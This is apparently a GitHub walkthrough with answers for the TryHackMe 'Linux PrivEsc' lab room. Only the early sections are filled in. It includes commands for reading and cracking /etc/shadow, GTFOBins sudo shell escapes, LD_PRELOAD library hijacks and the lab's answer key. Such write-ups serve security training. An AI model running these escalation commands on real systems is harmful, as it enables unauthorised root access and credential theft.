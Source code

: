 ![Windows PrivEsc Banner](https://i.imgur.com/RuMC2vG.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/linuxprivesc/Linux_Priv_Esc_Cover.png" alt="Linux PrivEsc Logo">
</p>

# Linux PrivEsc

This guide contains the answer and steps necessary to get to them for the [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc) room.

## Table of contents

- [Deploy the Vulnerable Debian VM](#deploy-the-vulnerable-debian-vm)
- [Service Exploits](#service-exploits)
- [Weak File Permissions - Readable /etc/shadow](#weak-file-permissions---readable-etcshadow)
- [Weak File Permissions - Writable /etc/passwd](#weak-file-permissions---writable-etcshadow)
- [Sudo - Shell Escape Sequences](#sudo---shell-escape-sequences)
- [Sudo - Environment Variables](#sudo---environment-variables)
- [Cron Jobs - File Permissions](#cron-jobs---file-permissions)
- [Cron Jobs - PATH Environment Variable](#cron-jobs---path-environment-variable)
- [Cron Jobs - Wildcards](#cron-jobs---wildcards)
- [SUID / SGID Executables - Known Exploits](#suid--sgid-executables---known-exploits)
- [SUID / SGID Executables - Shared Object Injection](#suid--sgid-executables---shared-object-injection)
- [SUID / SGID Executables - Environment Variables](#suid--sgid-executables---environment-variables)
- [SUID / SGID Executables - Abusing Shell Features (#1)](#suid--sgid-executables---abusing-shell-features-1)
- [SUID / SGID Executables - Abusing Shell Features (#2)](#suid--sgid-executables---abusing-shell-features-2)
- [Passwords & Keys - History Files](#passwords--keys---history-files)
- [Passwords & Keys - Config Files](#passwords--keys---config-files)
- [Passwords & Keys - SSH Keys](#passwords--keys---ssh-keys)
- [NFS](#nfs)
- [Kernel Exploits](#kernel-exploits)
- [Privilege Escalation Scripts ](#privilege-escalation-scripts)

### Deploy the Vulnerable Debian VM

**Username:** user

**Password:** password321

https://www.exploit-db.com/exploits/1518

### Service Exploits

*Read and follow along with the above.*

### Weak File Permissions - Readable /etc/shadow

ssh user@10.10.42.225
ls -lh /etc/shadow
cat /etc/shadow
su -u root
hashcat -m 1800 password.hash /usr/share/wordlists/rockyou.txt
john --wordlist=/usr/share/wordlists/rockyou.txt password.hash


1. What is the root user's password hash?

   

   ><details><summary>Click for answer</summary>$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0</details>

2. What hashing algorithm was used to produce the root user's password hash?

   

   ><details><summary>Click for answer</summary>sha512crypt</details>

3. What is the root user's password?

   

   ><details><summary>Click for answer</summary>password123</details>

### Weak File Permissions - Writable /etc/shadow



*Read and follow along with the above.*

### Weak File Permissions - Writable /etc/passwd

1. Run the "id" command as the newroot user. What is the result?

   ![]()

   ><details><summary>Click for answer</summary>uid=0(root) gid=0(root) groups=0(root)</details>

### Sudo - Shell Escape Sequences



1. How many programs is "user" allowed to run via sudo? 

   We can use `sudo -l` to view all the executables we can run with sudo.
   
   ![]()
   
   ><details><summary>Click for answer</summary>11</details>
   
2. One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?

   After going through the entire list in GTFOBins, there is one binary that was not listed on the website.
   
   ><details><summary>Click for answer</summary>apache2</details>

We can use (https://gtfobins.github.io/) to find out how to get an elevated shell with each binary.

**awk**

```cmd
sudo awk 'BEGIN {system("/bin/sh")}'
```

![]()

**iftop**

```cmd
sudo iftop
!/bin/sh
```

![]()
   
**find**

```cmd
sudo find . -exec /bin/sh \; -quit
```

![]()

**ftp**

```cmd
sudo ftp
!/bin/sh
```

![]()

**less**

```cmd
sudo less /etc/profile
!/bin/sh
```

![]()

**man**

```cmd
sudo man man
!/bin/sh
```

![]()

**more**

```cmd
TERM= sudo more /etc/profile
!/bin/sh
```

![]()

**nano**

```cmd
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![]()

**nmap**

```cmd
sudo nmap --interactive
nmap> !sh
```

![]()

**vim**

```cmd
sudo vim -c ':!/bin/sh'
```
![]()

*Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.*

```cmd
sudo apache2 -f /etc/shadow
```

![]()

https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/

### Sudo - Environment Variables

*Read and follow along with the above.*

```cmd
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```
```cmd
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

![]()

```cmd
ldd /usr/sbin/apache2
```

![]()

```cmd
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```
```cmd
sudo LD_LIBRARY_PATH=/tmp apache2
```

![]()

### Cron Jobs - File Permissions
### Cron Jobs - PATH Environment Variable
### Cron Jobs - Wildcards
### SUID / SGID Executables - Known Exploits
### SUID / SGID Executables - Shared Object Injection
### SUID / SGID Executables - Environment Variables
### SUID / SGID Executables - Abusing Shell Features (#1)
### SUID / SGID Executables - Abusing Shell Features (#2)
### Passwords & Keys - History Files
### Passwords & Keys - Config Files
### Passwords & Keys - SSH Keys
### NFS
### Kernel Exploits
### Privilege Escalation Scripts 
